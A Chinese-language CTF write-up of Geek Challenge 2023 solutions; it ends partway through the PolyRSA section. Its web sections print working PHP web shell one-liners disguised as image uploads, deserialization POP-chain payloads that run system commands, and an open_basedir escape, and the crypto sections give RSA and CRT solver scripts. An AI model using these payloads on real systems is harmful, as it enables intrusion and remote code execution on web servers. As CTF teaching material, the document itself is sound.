


# Geek Challenge 2023 部分题目writeup{ignore=true}

- [Web](#web)
  - [EzHttp](#ezhttp)
  - [easy\_php](#easy_php)
  - [n00b\_Upload](#n00b_upload)
  - [unsign](#unsign)
  - [Pupyy\_rce](#pupyy_rce)
  - [ez\_remove](#ez_remove)
- [re](#re)
  - [幸运数字](#幸运数字)
- [crypto](#crypto)
  - [SignIn](#signin)
  - [proof\_of\_work](#proof_of_work)
  - [easy\_classic](#easy_classic)
  - [OTPTwice](#otptwice)
  - [OldAlgorithm](#oldalgorithm)
  - [SimpleRSA](#simplersa)
  - [Fi1nd\_th3\_x'](#fi1nd_th3_x)
  - [PolyRSA](#polyrsa)
- [misc](#misc)
  - [cheekin](#cheekin)
  - [Qingwan心都要碎了](#qingwan心都要碎了)
  - [下一站是哪儿呢](#下一站是哪儿呢)
  - [DEATH\_N0TE](#death_n0te)
  - [xqr](#xqr)


# Web

## EzHttp

纯套娃。
打开网址，提示post传参


右键查看源代码发现注释


打开`robots.txt`文件


说`/o2takuXX's_username_and_password.txt`这个文件不让爬，打开看一下，得到账号密码


传入参数`username=admin&password=@dm1N123456r00t#`


设置referer字段为`syssec.com`


修改UA头部的内容为`Syclover`


提示要从本地访问，修改rff字段为`127.0.0.1`


需要设置代理，修改Via字段为`Syc.vip`


最后一步了，从php代码看需要从http头部获取`O2TAKUXX`字段的值并比较，直接添加这个字段并且值设置为


获得flag：`SYC{HttP_1s_E@sY}`


ps. 做到浏览器那一步想起来以前做过，查了一下是19年极客大挑战，什么祖传题目。
ps2. 你这个三叶草浏览器能有黑曜石浏览器一半功能吗。

## easy_php

非常好套娃，使我的大脑旋转


代码非常清晰明了，套娃绕过，全部通过即可，首先看第一部分

`isset($_GET['syc'])&&preg_match('/^Welcome to GEEK 2023!$/i', $_GET['syc']) && $_GET['syc'] !== 'Welcome to GEEK 2023!'`

要求从GET请求中获得syc的值，并且过一个正则比较和一个非严格不等，正则比较和不等比较的字符串部分是一样的，但是正则表达式部分大小写不敏感，所以设置payload为`?syc=welcome to GEEK 2023!`完成第一部分绕过。<br>
然后看第二部分

`intval($_GET['lover']) < 2023 && intval($_GET['lover'] + 1) > 2024`

要求从GET请求中获取lover的值，并且过一下`intval()`函数，进行比较，这个函数绕过的方法很多，在这里选择传入一个有一定长度的十六进制数，在`intval($_GET['lover'])`这里会返回0，在`intval($_GET['lover'] + 1)`这里会返回转十进制加一后的结果，符合要求，传入payload为`?syc=welcome to GEEK 2023!&lover=0x1234`。<br>
接着看第三部分和第四部分

第三部分的判断代码是`isset($_POST['qw']) && $_POST['yxx']`，只要使用psot传入这俩参数就行。第四部分是`sha1($array1) === sha1($array2)`，两个变量是第三部分传入的参数经过了类型转换的值，第一眼以为是要做sha1碰撞，但是看了一下没要求两个参数不一致，那么随便传俩一样的字符串就行，post的body为`qw=ab&yxx=ab`。<br>
看最后一部分判断代码
`isset($_POST['SYC_GEEK.2023'])&&($_POST['SYC_GEEK.2023']="Happy to see you!")`
从post获取参数`SYC_GEEK.2023`并且指定了值，这一步的难点在于直接传入`SYC_GEEK.2023`会被php保存为`SYC_GEEK_2023`，`.`被看做非法字符重命名为`_`。不过这个重命名有个问题是只会修改第一种碰到的非法字符，因此只需要把参数名种的`_`修改为另一种非法字符就可以了。传入的body为`qw=ab&yxx=ab&SYC[GEEK.2023=Happy to see you!`，得到flag


## n00b_Upload
打开网址
<br>
嗯，有他妈柚子厨，看一下出题人
<br>
首先试着上传一张正常的图片，返回如图
<br>
啊？我马呢？我那么大一个马呢？哦，我还没传马啊，那没事了。
出题人很贴心地给了非常多的返回信息，从返回信息看有一个后缀检查，一个文件头检查和一个内容检查。
首先看后缀检查，试一下上传正常图片，但是抓包后修改文件后缀
<br>
不仅过了后缀还过了头部，保存文件存储的后缀还是php，那么只要能通过文件内容检查就可以直接连接这个马。
试着往文件中添加一句话木马，`<?php @eval($_POST[value]);?>`
<br>
检测到了木马并且让我去玩原神。
再尝试一下，只添加`<?php?>`不添加任何代码，结果还是一样。那么至少会有个针对php标识的检测，继续尝试不同组合（`<?>` `<?` `?>` `<>` `<?php` `<?ph` `<?PhP` ）后发现，这一部分只检测了php的代码标识头，查阅资料后发现可以使用`<?= ?>`来代替`<?php ?>`，测试也能正常上传。
那么接下来只需要制作一个图片马就可以完成了，由于有些图片以php解析的时候可能会被错误地执行php代码，所以直接建立一个空jpg文件，用16进制编辑器加个jpg的头，然后添加一句话木马`<?= @eval($_POST[value]);?>`，上传成功后使用蚁剑连接，在根目录下找到flag。


ps. 在做的时候用蚁剑连不上，后来换了一个马`<?= system($_GET['cmd']);
?>`在网页里面一点点找到了。
## unsign
打开看到源码
```php
<?php
highlight_file(__FILE__);
class syc
{
    public $cuit;
    public function __destruct()
    {
        echo("action!<br>");
        $function=$this->cuit;
        return $function();
    }
}

class lover
{
    public $yxx;
    public $QW;
    public function __invoke()
    {
        echo("invoke!<br>");
        return $this->yxx->QW;
    }

}

class web
{
    public $eva1;
    public $interesting;

    public function __get($var)
    {
        echo("get!<br>");
        $eva1=$this->eva1;
        $eva1($this->interesting);
    }
}
if (isset($_POST['url'])) 
{
    unserialize($_POST['url']);
}

?>
```
很明显是一个pop链反序列化，查看三个魔术方法，第一个在对象销毁的时候触发，第二个在对象被作为函数调用的时候触发，第三个在访问对象不存在的属性的时候调用。
构造pop链为：`__destruct()->__invoke()->__get()`
生成payload的代码如下：
```php
class syc
{
    public $cuit;
}

class lover
{
    public $yxx;
    public $QW;
}

class web
{
    public $eva1;
    public $interesting;
}

$a=new syc();
$b=new lover();
$c=new web();
$a->cuit=$b;
$b->yxx=$c;
$c->eva1="system";
$c->interesting="cat ../../../../flag;";
echo serialize($a);
```
生成的payload为：`O:3:"syc":1:{s:4:"cuit";O:5:"lover":2:{s:3:"yxx";O:3:"web":2:{s:4:"eva1";s:6:"system";s:11:"interesting";s:21:"cat ../../../../flag;";}s:2:"QW";N;}`需要注意的是web类中的是属性`eva1`不是函`数eval()`，最后在根目录下找到flag。

## Pupyy_rce

打开查看源码
```php
<?php
highlight_file(__FILE__);
header('Content-Type: text/html; charset=utf-8');
error_reporting(0);
include(flag.php);
//当前目录下有好康的😋
if (isset($_GET['var']) && $_GET['var']) {
    $var = $_GET['var'];
   
    if (!preg_match("/env|var|session|header/i", $var,$match)) {
        if (';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $var)){
        eval($_GET['var']);
        }
        else die("WAF!!");
    } else{
        die("PLZ DONT HCAK ME😅");
    }
}
```
提示给的很足，一个是当前目录下有东西，一个是正则表达式（匹配无传参的函数，可以嵌套匹配）和题目名字直说是无参数RCE了，然后看第二层判断，不能使用包含env。var。session。header这些的函数。
首先构造payload查看当前目录下文件：`print_r(scandir(getcwd()));`

可以看到有个fl@g.php，就是它了，直接访问得到flag。


## ez_remove
```php
<?php
highlight_file(__FILE__);
class syc{
    public $lover;
    public function __destruct()
    {
        eval($this->lover);
    }
}

if(isset($_GET['web'])){
    if(!preg_match('/lover/i',$_GET['web'])){
        $a=unserialize($_GET['web']);
        throw new Error("快来玩快来玩~");
    }
    else{
        echo("nonono");
    }
}
?>
```
乍一看这个类可以执行任意函数，是可以秒杀的题目，但其实这道题设置了好几个卡，首先是正则表达式检查`lover`，这一步可以使用16进制替换ascii来绕过，具体来说就是把序列化字符串中的`lover`替换为`love\72`，并且把代表字符串的`s`替换为大写。那么就可以得到一个payload:`O:3:"syc":1:{S:5:"love\72";s:13:"system("ls");";}`，但是得不到文件列表。
接着看发现是在反序列化函数后直接抛出错误，导致反序列化的对象无法正常删除，也就无法执行析构函数，这里搜索了之后可以使用提前销毁对象的方法来解决，简单来说就是把指向对象的变量重新指向NULL，那么原先的对象就没有变量指向它，会自动触发销毁。具体的做法就是反序列化一个列表，第一个元素是对象，第二个元素是NULL，序列化后把第二个元素的`i:1`修改为`i:0`，这样在反序列化的过程中就会重新指向，进而触发析构函数，payload为：`a:2:{i:0;O:3:"syc":1:{S:5:"love\72";s:13:"system("ls");";}i:0;N;}`
运行后发现system被禁用，修改payload使用phpinfo查看

禁用了很多常用函数，再查看`open_basedi`项，也被限制了

要绕过这两个限制是有点麻烦的，这里参考了[这篇博客](https://blog.csdn.net/snowlyzz/article/details/126310439)
根据之前做题目的经验，网上走四层就能到根目录了，简单修改一下令`$lover='mkdir("a");chdir("a");ini_set("open_basedir","..");chdir("..");chdir("..");chdir("..");chdir("..");ini_set("open_basedir","/");print_r(scandir("."));'`，重新生成反序列化字符串，并且按照上面修改一下得到payload：`a:2:{i:0;O:3:"syc":1:{S:5:"love\72";s:149:"mkdir("a");chdir("a");ini_set("open_basedir","..");chdir("..");chdir("..");chdir("..");chdir("..");ini_set("open_basedir","/");print_r(scandir("."));";}i:0;N;}`
可以看到有个目录叫`f1ger`很可疑

不知道是目录还是文件，试试看直接读取，payload:`a:2:{i:0;O:3:"syc":1:{S:5:"love\72";s:146:"mkdir("a");chdir("a");ini_set("open_basedir","..");chdir("..");chdir("..");chdir("..");chdir("..");ini_set("open_basedir","/");readfile("/f1ger");";}i:0;N;}`
获得flag。

生成序列化字符串的代码为（不包含手动处理部分）：
```php
<?php
class syc{
    public $lover;
    public function __destruct()
    {
        eval($this->lover);
    }
}
$x=new syc();
$x->lover='';
$t=array($x,NULL);
echo serialize($t);
?>
```


# re
## 幸运数字
这道题要求输入一个数字，如果和程序设置的一样就返回flag，但是这道题是没有加随机的，数字是保持不变的，输入相同的数字在每次运行的返回也是一样的。换句话说，可以爆破(ida是什么？不熟)，脚本如下：
```
import subprocess
import time

def input_num(n):
    # 启动cmd并设置stdin为PIPE，这样我们可以向其输入命令
    print('')
    print(n)
    print('')
    cmd_process = subprocess.Popen("cmd", shell=True, stdin=subprocess.PIPE)
    time.sleep(0.1)
    #启动题目的程序
    cmd_process.stdin.write('lucky'.encode('utf-8') + b'\n')
    time.sleep(0.1)
    #输入幸运数字
    cmd_process.stdin.write(str(n).encode('utf-8') + b'\n')
    # 不要忘记在最后发送exit以退出cmd
    cmd_process.stdin.write(b'exit\n')
    cmd_process.stdin.flush()

for i in range(100,200):
    input_num(i)

```
由于cmd`ctrl+a`能一次性选择的长度有限，选择每100个数字运行一次，运行完脚本后复制到word文档，然后打开查找`SYC{`，如果结果为100个就继续爆破，结果为101说明找到了幸运数字。在第二次运行得到结果，数字是142，flag是：```SYC{C0ngratulati0nnnns_You_gAessEd_R1ght}```


# crypto

## SignIn
看看签到题

一眼盯真，一看就是十六进制ascii，直接解码就行
得到flag:`SYC{Hello_World_Crypto_bibobibo}`

## proof_of_work
nc连上机器

很明显是让我们填入四个字符使得等式成立，就是一道爆破题目，写脚本如下
```python
import hashlib

def calculate_sha256(input_string):
    # 创建一个 SHA-256 哈希对象
    sha256_hash = hashlib.sha256()
    # 将字符串编码为字节串并更新哈希对象
    sha256_hash.update(input_string.encode('utf-8'))
    # 获取十六进制表示的哈希值
    sha256_hex = sha256_hash.hexdigest()
    return sha256_hex

print()
# 输入字符串
input_string = "nzoQc8TEyG3saXaX"
sha256_result = calculate_sha256(input_string)
print(sha256_result.__class__)

for i1 in range(32,127):
    for i2 in range(32,127):
        for i3 in range(32,127):
            for i4 in range(32,127):
                final_string=chr(i1)+chr(i2)+chr(i3)+chr(i4)+input_string
                sha256_result = calculate_sha256(final_string)
                if sha256_result=="81716eabb979e80cd6ee3a547316fb503a2824519fabadd6a783d13ea81140ed":
                    print(chr(i1)+chr(i2)+chr(i3)+chr(i4))
```
运行脚本得到四位字符

填入得到flag:`SYC{st3p_1nt0_1nter4ctive_Crypt0graphy}`

## easy_classic

题目描述：非常好套娃，使我的古典旋转
我还以为要用rot，被骗了。
题目是个逆天五层套娃，全是古典密码，一层层看吧
第一层：

全是字母，基本上是代还密码，全试一遍，发现是凯撒
key是16，密码是`enjoythegame
第二层：`

最后这几个字母很容易看到是crypto的乱序啊，而且cry都在最后面，估计就是栅栏了，试了一下得到是7栏的W栅栏，密码是`ilovecryptohaha`
第三层：


大小写字母加数字，看不太出来，试了一遍发现居然是base64，得到密码`宇宙万法的那个源头`
> ps. 看到这个密码我还去搜了，以为是如如/如来，最后发现就是这个

第四层：

特征明显，和佛曰那些差不多，直接搜熊曰编码，解密得到密码`never gonna give you up`
第五层：

key部分很明显是个emoji加密，又叫base100，解密得到key:`fairgame`
然后把所有我知道的带key的古典密码全部试了一遍，死活解密不了，最后没办法上搜索引擎搜，看了三四篇古典密码的ctf大集合，终于找到了这种加密方法叫palyfair密码，解密得到密码原神启动，啊不是，是`genshinstart`
得到flag:`SYC{classical_1s_fun}`

## OTPTwice
下载附件得到代码
```python
from pwn import xor 
from os import urandom 
flag = b"SYC{Al3XEI_FAKE_FLAG}" 

# step0: key generation & distribution
def s0(msg): 
    k1,k2 = [urandom(len(msg)) for _ in "__"] 
    return k1,k2 

#  

# step1: Alice encrypt M, and send it to Bob
def s1(msg,k1):
    c1 = xor(msg,k1)
    return c1 

# step2: Bob encrypt c1, and send it to Alice 
def s2(msg,k2):
    c2 = xor(msg,k2) 
    return c2 

# step3: Alice decrypt c2, and send it to Bob.
def s3(msg,k1):
    c3 = xor(msg,k1)
    return c3 

# step4: Bob decrypt c3, get M.
def s4(msg,k2):
    m_ = xor(msg,k2) 
    return m_ 


def encrypt(msg,k1,k2): 
    c1 = s1(msg,k1) 
    c2 = s2(c1,k2) 
    c3 = s3(c2,k1)
    m_ = s4(c3,k2) 
    assert msg == m_

# Here's what hacker Eve got:
def encrypt_(msg,k1,k2):
    c1 = s1(msg,k1) 
    c2 = s2(c1,k2) 
    c3 = s3(c2,k1)
    m_ = s4(c3,k2) 
    if HACK == True:
        print(c1) 
        print(c2) 
        print(c3) 


k1,k2 = s0(flag) 
encrypt_(flag,k1,k2) 

'''
b'\xdbi\xab\x8d\xfb0\xd3\xfe!\xf8Xpy\x80w\x8c\x87\xb9'
b'o\xb0%\xfb\xdb\x0e\r\x04\xde\xd1\x9a\x08w\xda4\x0f\x0cR'
b'\xe7\x80\xcd\ria\xb2\xca\x89\x1a\x9d;|#3\xf7\xbb\x96'
'''
```
分析后发现过程是产生k1,k2两个和明文等长的密钥，然后k1和明文异或产生c1，k2和c1异或产生c2，k1和c2异或产生c3，k2和c3异或得到明文。简单写一下c1-c3的展开就可以秒杀。
> c1=msg^k1
> c2=c1\^k2=msg\^k1\^k2
> c3=c2\^k1=msg\^k1\^k2\^k1=msg\^k2
> 由此可得c1\^c2=k2，c3\^k2=msg,那么很容易可以得出c1\^c2\^c3=msg
> 代码如下：
> ```python
> from Crypto.Util.number import getPrime,bytes_to_long,long_to_bytes
> c11=bytes_to_long(b'\xdbi\xab\x8d\xfb0\xd3\xfe!\xf8Xpy\x80w\x8c\x87\xb9')
> c21=bytes_to_long(b'o\xb0%\xfb\xdb\x0e\r\x04\xde\xd1\x9a\x08w\xda4\x0f\x0cR')
> c31=bytes_to_long(b'\xe7\x80\xcd\ria\xb2\xca\x89\x1a\x9d;|#3\xf7\xbb\x96')
> print(long_to_bytes(c11^c21^c31))
> ```
运行后得到flag:SYC{I_l0v3_Crypt0}`

## OldAlgorithm
下载附件得到代码
```python
from Crypto.Util.number import * 
import os 
flag = b"SYC{Al3XEI_FAKE_FLAG}"

pad = lambda msg,padlen: msg+os.urandom(padlen-len(msg))


flag = pad(flag,32)
print(len(flag))
p = [getPrime(16) for _ in range(32)] 
c = [bytes_to_long(flag)%i for i in p] 


print('p=',p)
print('c=',c)

'''
p= [58657, 47093, 47963, 41213, 57653, 56923, 41809, 49639, 44417, 38639, 39857, 53609, 55621, 41729, 60497, 44647, 39703, 55117, 44111, 57131, 37747, 63419, 63703, 64007, 46349, 39241, 39313, 44909, 40763, 46727, 34057, 56333]
c= [36086, 4005, 3350, 23179, 34246, 5145, 32490, 16348, 13001, 13628, 7742, 46317, 50824, 23718, 32995, 7640, 10590, 46897, 39245, 16633, 31488, 36547, 42136, 52782, 31929, 34747, 29026, 18748, 6634, 9700, 8126, 5197]
'''

```
简单看一下发现是把明文分别和32个素数取余了，一眼同余方程组，还不带rsa的e加密的，直接得到结果，中国剩余定理秒杀，自己写的代码老是出错，先放个别人的板子，有空再自己写。

```python
import gmpy2

p= [58657, 47093, 47963, 41213, 57653, 56923, 41809, 49639, 44417, 38639, 39857, 53609, 55621, 41729, 60497, 44647, 39703, 55117, 44111, 57131, 37747, 63419, 63703, 64007, 46349, 39241, 39313, 44909, 40763, 46727, 34057, 56333]
c= [36086, 4005, 3350, 23179, 34246, 5145, 32490, 16348, 13001, 13628, 7742, 46317, 50824, 23718, 32995, 7640, 10590, 46897, 39245, 16633, 31488, 36547, 42136, 52782, 31929, 34747, 29026, 18748, 6634, 9700, 8126, 5197]


"""
广播攻击
适用情况：模数n、密文c不同，明文m、加密指数e相同。一般会是e=k，然后给k组数据

使用不同的模数n，相同的公钥指数e加密相同的信息。
就会得到多个(m^e) ==ci (mod ni)，
将(m^e)视为一个整体M，这就是典型的中国剩余定理适用情况。
按照本文的中国剩余定理小节容易求得m^e的值，当e较小时直接开e方即可，可使用gmpy2.iroot(M,e) 方法。
"""
import random
import gmpy2
import functools
m = random.randint(0x100000000000, 0xffffffffffff)


def CRT(mi, ai):
    # mi,ai分别表示模数和取模后的值,都为列表结构
    # Chinese Remainder Theorem
    # lcm=lambda x , y:x*y/gcd(x,y)
    # mul=lambda x , y:x*y
    # assert(reduce(mul,mi)==reduce(lcm,mi))
    # 以上可用于保证mi两两互质
    assert (isinstance(mi, list) and isinstance(ai, list))
    M = functools.reduce(lambda x, y: x * y, mi)
    ai_ti_Mi = [a * (M // m) * gmpy2.invert(M // m, m) for (m, a) in zip(mi, ai)]
    return functools.reduce(lambda x, y: x + y, ai_ti_Mi) % M


print(long_to_bytes(CRT(p,c)))

```
运行后得到flag:`SYC{CRT_1s_s0_ju1cy!}`

## SimpleRSA
下载附件得到代码
```python
import gmpy2
from Crypto.Util.number import * 
flag = b"SYC{Al3XEI_FAKE_FLAG}"
assert len(flag) == 35
p,q = [getPrime(2048) for _ in "__"] 
n = p*q 
e = 65537 
c = gmpy2.powmod(bytes_to_long(flag),e,n) 
print(p) 
print(c)
#24724324630507415330944861660078769085865178656494256140070836181271808964994457686409910764936630391300708451701526900994412268365698217113884698394658886249353179639767806926527103624836198494439742123128823109527320850165486500517304731554371680236789357527395416607541627295126502440202040826686102479225702795427693781581584928770373613126894936500089282093366117940069743670997994742595407158340397268147325612840109162997306902492023078425623839297511182053658542877738887677835528624045235391227122453939459585542485427063193993069301141720316104612551340923656979591045138487394366671477460626997125944456537
#510345661718450375632304764819724223824018609359964259503762283253350010161515190912152623604019093266967095847334388281390406831587663253164256543905694021952211220652820225527413861208452760215767828927039893435528572148282529198773772864255061213208279999011194952146362748485103032149806538140693537361755210176698895104708379400806511907719904867068865970241208806615061055047254026118016836750283966478103987375361826198930529462261013324904522014804502582865716441828895047550041401172127129749969507853355531197814919603963664646220505672302543085959372679395717892060245461464861507164276442140407308832537707450729432224150754603518526288767105682399190438680085925078051459448618725871249563011864525585870188123725554411655044152994826056900502298772802133526591794328224932405680583757307064395792317383571866619582974377344736930271554160701478385763426091091686496788999588340419226785217028504684542197970387916262126278955278523452903043316452825738030645100271595942652498852506660789605846309602343932245435421425673058238785509280366229754404949219663043627431437755087855502139890639468481922788973821783957766433857773771229298328019250652625289700950165414584983487319078090573179470893450632419467111117341472
```
查看是常规的rsa加密过程，没有什么偷鸡的地方，题目只给了c,e,p三个参数，想了很久，看到做出来的人很多但是一直没思路，盯着题目给的wiki看了半天，最后动手推了一下发现不能用完整的rsa来看待，推算过程如下：
> m^e=c mod n
> c=x mod p
> 那么可以转化为m^e=c+pqk1=x+pk2+pqk1=x+p(k2+qk1)=x+pk
> 再仔细一想，那不就是m^e=x mod p
> 也就是可以转化为一个新的rsa，x是密文，p是模
> 接下来按照正常rsa解密过程就行了，因为p是素数所以phi=p-1
代码如下：
```python
x=c%p
d=gmpy2.invert(e,p-1)
print(long_to_bytes(gmpy2.powmod(x,d,p)))
```


## Fi1nd_th3_x'
下载附件得到代码
```python
from Crypto.Util.number import *
from libnum import* 

p = getPrime(512)
q = getPrime(512)
r = getPrime(512)
e = getPrime(32)
n = p*q*r
phi = (p-1)*(q-1)*(r-1)
d = inverse(e,phi)
dP = d%((q-1)*(r-1))
dQ = d%((p-1)*(r-1))
dR = d%((p-1)*(q-1))
m = s2n(flag.encode())
c = pow(m,e,n)

print('p=',p)
print('q=',q)
print('r=',r)
print('dP=',dP)
print('dQ=',dQ)
print('dR=',dR)
print('c=',c)

'''
p= 13014610351521460822156239705430709078128228907778181478242620569429327799535062679140131416771915929573454741755415612880788196172134695027201422226050343
q= 12772373441651008681294250861077909144300908972709561019514945881228862913558543752401850710742410181542277593157992764354184262443612041344749961361188667
r= 12128188838358065666687296689425460086282352520167544115899775800918383085863282204525519245937988837403739683061218279585168168892037039644924073220678419
dP= 116715737414908163105708802733763596338775040866822719131764691930369001776551671725363881836568414327815420649861207859100479999650414099346914809923964116101517432576562641857767638396325944526867458624878906968552835814078216316470330511385701105459053294771612727181278955929391807414985165924450505855941
dQ= 44209639124029393930247375993629669338749966042856653556428540234515804939791650065905841618344611216577807325504984178760405516121845853248373571704473449826683120387747977520655432396578361308033763778324817416507993263234206797363191089863381905902638111246229641698709383653501799974217118168526572365797
dR= 60735172709413093730902464873458655487237612458970735840670987186877666190533417038325630420791294593669609785154204677845781980482700493870590706892523016041087206844082222225206703139282240453277802870868459288354322845410191061009582969848870045522383447751431300627611762289800656277924903605593069856921
c= 93063188325241977486352111369210103514669725591157371105152980481620575818945846725056329712195176948376321676112726029400835578531311113991944495646259750817465291340479809938094295621728828133981781064352306623727112813796314947081857025012662546178066873083689559924412320123824601550896063037191589471066773464829226873338699012924080583389032903142107586722373131642720522453842444615499672193051587154108368643495983197891525747653618742702589711752256009
'''
```
首先分析，题目给了pqr三个参数，没有给e，这就导致无法使用求e的逆元来解题，但同时还给了dp，dq，dr，思考普通的rsa如果使用dp，dq解密的话其本质是对中国剩余定理的利用，那么这里也可以尝试一下
个鬼
中国剩余定理要求模数互素，但很遗憾这里的三个模数之间都有非常大的公因数，不过这难不倒我，中国剩余定理可以扩展一下，参考了这个[博客](https://www.ruanx.net/excrt/)学习了一下，写的很好
简单总结一下，就是首先计算两个方程式之间的特解，计算方法是将同余方程式展开为普通方程（添加k个模，k为任意整数），然后然后两方程相减之后移项，得到一个不定方程，裴蜀定理判断有没有解（ctf题肯定有解啦，除非方法用错了），如果有解就在两边除上模之间的最大公因数，转化为可以使用扩展欧几里得算法的形式，然后解出特解。通过不断将后面的方程和上面解出的特解组成的方程联立求解（步骤同上），最终只剩下一个特解，再加上k个所有模的最小公倍数，得到的就是通解啦。
脚本也是根据博客提供的改了一下输入
```python
import gmpy2, libnum, codecs, hashlib, itertools
from functools import reduce

def exgcd(a, b):
    if b==0: return 1, 0
    x, y = exgcd(b, a%b)
    return y, x - a//b*y

def uni(P, Q):
    r1, m1 = P
    r2, m2 = Q
    d = gmpy2.gcd(m1, m2)
    assert (r2-r1) % d == 0
    l1, l2 = exgcd(m1//d, m2//d)
    return (r1 + (r2-r1)//d*l1*m1) % gmpy2.lcm(m1, m2), gmpy2.lcm(m1, m2)

def CRT(eq):
    return reduce(uni, eq)
  
p= 13014610351521460822156239705430709078128228907778181478242620569429327799535062679140131416771915929573454741755415612880788196172134695027201422226050343
q= 12772373441651008681294250861077909144300908972709561019514945881228862913558543752401850710742410181542277593157992764354184262443612041344749961361188667
r= 12128188838358065666687296689425460086282352520167544115899775800918383085863282204525519245937988837403739683061218279585168168892037039644924073220678419
dP= 116715737414908163105708802733763596338775040866822719131764691930369001776551671725363881836568414327815420649861207859100479999650414099346914809923964116101517432576562641857767638396325944526867458624878906968552835814078216316470330511385701105459053294771612727181278955929391807414985165924450505855941
dQ= 44209639124029393930247375993629669338749966042856653556428540234515804939791650065905841618344611216577807325504984178760405516121845853248373571704473449826683120387747977520655432396578361308033763778324817416507993263234206797363191089863381905902638111246229641698709383653501799974217118168526572365797
dR= 60735172709413093730902464873458655487237612458970735840670987186877666190533417038325630420791294593669609785154204677845781980482700493870590706892523016041087206844082222225206703139282240453277802870868459288354322845410191061009582969848870045522383447751431300627611762289800656277924903605593069856921
c= 93063188325241977486352111369210103514669725591157371105152980481620575818945846725056329712195176948376321676112726029400835578531311113991944495646259750817465291340479809938094295621728828133981781064352306623727112813796314947081857025012662546178066873083689559924412320123824601550896063037191589471066773464829226873338699012924080583389032903142107586722373131642720522453842444615499672193051587154108368643495983197891525747653618742702589711752256009

ms= []
cs= []

ms.append((q-1)*(r-1))
ms.append((p-1)*(r-1))
ms.append((q-1)*(p-1))
cs.append((dP))
cs.append((dQ))
cs.append((dR))
m, mod = CRT(zip(cs, ms))
for i in range(1000):
    d=m+mod*i
    m0=pow(c,d,p*q*r)
    flag=n2s(int(m0))
    if 'SYC{' in str(flag):
        print(flag,i)
```
运行后发现特解就是解，得到flag：`SYC{CRT_1s_f3n_but_Gen3hi_im9act_is_a_balabalaba}`

## PolyRSA
下载附件得到源码
```python
import gmpy2
from Crypto.Util.number import *  
flag = b"SYC{Al3XEI_FAKE_FLAG}"
p,q = [getPrime(2048) for _ in "__"] 
e1,e2 = [getPrime(17) for _ in "__"] 
e = 65537
n = p*q 
c1 = gmpy2.powmod(2*p + 3*q,e1,n)
c2 = gmpy2.powmod(5*p + 7*q,e2,n) 
c = gmpy2.powmod(bytes_to_long(flag),e,n) 
print("e1=",e1)
print("e2=",e2) 
print("c1=",c1) 
print("c2=",c2) 
print("c=",c)
print("n=",n)
```
很考验数学能力，需要推导获得解法
首先建立方程组
> (2p+3q)^e1^=c1 %n
> (5p+7q)^e2^=c2 %n

由于e1和e2是相对大的数字，乍一看没法展开，但是这不是普通的方程，后面是取余的，n=pq，以第一个式子为例，左边展开后的形式就是2^e1^p^e1^+3^e1^q^e1^+pq(k~1~p^e1-2^+....+k~x~q^e1-2^)，而pq就是n，可以直接被模掉，化简后方程组如下
> 2^e1^p^e1^+3^e1^q^e1^=c1 %n
> 5^e2^p^e2^+7^e2^q^e2^=c2 %n

同理，对两边分别去e1次幂和e2次幂，把两个式子的指数统一，化简后方程组如下
> 2^e1e2^p^e1e2^+3^e1e2^q^e1e2^=c1^e2^ %n
> 5^e1e2^p^e1e2^+7^e1e2^q^e1e2^=c2^e1^ %n

由于n=pq，对上面的式子可以直接模q，把左侧的一个项消掉后，再分别乘以5^e1e2^和2^e1e2^，统一左边的系数联立方程组得到
> c1^e2^5^e1e2^-c2^e1^2^e1e2^=0 %q

很显然c1^e2^5^e1e2^-c2^e1^2^e1e2^是q的倍数，而n也是q的倍数，那么只要计算这两个数的最大公约数，就能得到q，进而得到p。
由于数字太大，无法直接计算，所以得分步计算后模n再合在一起，代码如下：
```python
import gmpy2
from Crypto.Util.number import *  
e=65537
e1= 113717
e2= 80737
c1= 97528398828294138945371018405777243725957112272614466238005409057342884425132214761228537249844134865481148636534134025535106624840957740753950100180978607132333109806554009969378392835952544552269685553539656827070349532458156758965322477969141073720173165958341043159560928836304172136610929023123638981560836183245954461041167802574206323129671965436040047358250847178930436773249800969192016749684095882580749559014647942135761757750292281205876241566597813517452803933496218995755905344070203047797893640399372627351254542342772576533524820435965479881620338366838326652599102311019884528903481310690767832417584600334987458835108576322111553947045733143836419313427495888019352323209000292825566986863770366023326755116931788018138432898323148059980463407567431417724940484236335082696026821105627826117901730695680967455710434307270501190258033004471156993017301443803372029004817834317756597444195146024630164820841200575179112295902020141040090350486764038633257871003899386340004440642516190842086462237559715130631205046041819931656962904630367121414263911179041905140516402771368603623318492074423223885367923228718341206283572152570049573607906130786276734660847733952210105659707746969830132429975090175091281363770357
